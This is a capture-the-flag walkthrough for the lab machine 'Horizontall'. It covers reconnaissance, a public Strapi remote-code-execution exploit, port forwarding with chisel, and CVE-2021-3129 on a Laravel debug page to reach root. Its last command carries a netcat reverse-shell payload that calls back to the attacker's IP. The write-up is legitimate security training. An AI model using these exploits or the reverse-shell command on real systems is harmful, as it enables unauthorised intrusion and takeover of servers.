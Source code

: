 # Horizontall

## Foothold

First as always, `nmap`

```
# Nmap 7.92 scan initiated Sun Sep  5 14:00:18 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.11.105
Nmap scan report for 10.10.11.105
Host is up, received syn-ack (0.041s latency).
Scanned at 2021-09-05 14:00:19 +07 for 7s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  5 14:00:26 2021 -- 1 IP address (1 host up) scanned in 8.45 seconds
```

We have a web server. Navigating to the web server with the IP address redirects us to `http://horizontall.htb`.

```sh
$ curl http://10.10.11.105 -I
HTTP/1.1 301 Moved Permanently
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 05 Sep 2021 07:00:03 GMT
Content-Type: text/html
Content-Length: 194
Connection: keep-alive
Location: http://horizontall.htb
```

We then add the domain name to our `/etc/passwd` and fuzz for subdomains.

```sh
$ ffuf -u "http://horizontall.htb/" -H "Host: FUZZ.horizontall.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 194

www                     [Status: 200, Size: 901, Words: 43, Lines: 2, Duration: 49ms]
api-prod                [Status: 200, Size: 413, Words: 76, Lines: 20, Duration: 57ms]
```

The pages at `http://horizontall.htb/` and `http://www.horizontall.htb/` look to be the same static page with nothing special. Running `gobuster` on them reveals no special directory or file. With nothing on the 2 pages, I went on to enumerate `api-prod`.

```sh
$ ffuf -u "http://api-prod.horizontall.htb/?FUZZ=test" -w ~/tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 413
$ ffuf -u "http://api-prod.horizontall.htb/?FUZZ=test" -w ~/tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 413 -X POST
$ ffuf -u "http://api-prod.horizontall.htb/?FUZZ=test" -w ~/tools/SecLists/Discovery/Web-Content/api/api-seen-in-wild.txt  -fs 413
$ ffuf -u "http://api-prod.horizontall.htb/?FUZZ=test" -w ~/tools/SecLists/Discovery/Web-Content/api/api-seen-in-wild.txt  -fs 413 -X POST
```

This, however, returns nothing. Running `gobuster` returns a few things ...

```sh
/ADMIN                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/REVIEWS              (Status: 200) [Size: 507]
/Reviews              (Status: 200) [Size: 507]
/Users                (Status: 403) [Size: 60]
/admin                (Status: 200) [Size: 854]
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
```

... all of which I run `ffuf` on like before, though that also returns nothing.

Looking at the traffic ...

```sh
$ curl -I http://api-prod.horizontall.htb/
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 05 Sep 2021 07:45:24 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 413
Connection: keep-alive
Vary: Origin
Content-Security-Policy: img-src 'self' http:; block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Last-Modified: Wed, 02 Jun 2021 20:00:29 GMT
Cache-Control: max-age=60
X-Powered-By: Strapi <strapi.io>
```

We see an interesting header: `X-Powered-By: Strapi <strapi.io>`. We then look up exploits for strapi. Among the exploits I found, [this](https://www.exploit-db.com/exploits/50239) doesn't require credentials and works pretty much out of the box to give us RCE. Optionally, after running the exploit, we can confirm that we have RCE by listening for pings with `sudo tcpdump -i tun0 icmp` and `ping`ing our machine with `ping -c 4 YOUR_IP`. We can the get a reverse shell on the box.

## Privilege Escalation

Looking at listening ports ...

```sh
strapi@horizontall:~/myapi$ ss -tulnp
Netid  State    Recv-Q   Send-Q      Local Address:Port     Peer Address:Port
tcp    LISTEN   0        128               0.0.0.0:22            0.0.0.0:*
tcp    LISTEN   0        128             127.0.0.1:1337          0.0.0.0:*       users:(("node",pid=1766,fd=31))
tcp    LISTEN   0        128             127.0.0.1:8000          0.0.0.0:*
tcp    LISTEN   0        80              127.0.0.1:3306          0.0.0.0:*
tcp    LISTEN   0        128               0.0.0.0:80            0.0.0.0:*
tcp    LISTEN   0        128                  [::]:22               [::]:*
tcp    LISTEN   0        128                  [::]:80               [::]:*
```

 ... we see some things are listening on ports  1337 and 8000. I wanted to take a look so I uploaded `chisel` and port-forward to those ports. The service on port 1337 is just `api-prod.horizontall.htb`. Port 8000, however, is a Laravel page.

```sh
# atk machine
$ chisel server -p 9001 --reverse

# target
$ ./chisel client 10.10.14.79:9001 R:8000:127.0.0.1:8000
```

Looking at the landing page, we see that we have Laravel v8 running with debug mode on. Looking around, we find that it's vulnerable to CVE-2021-3129, for which I found [this](https://github.com/nth347/CVE-2021-3129_exploit) to work. I `git clone` the exploit, set up a listener and run it with a reverse shell.

```sh
$ ./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.79 1337 >/tmp/f"
```

With that, we should have a shell as root.
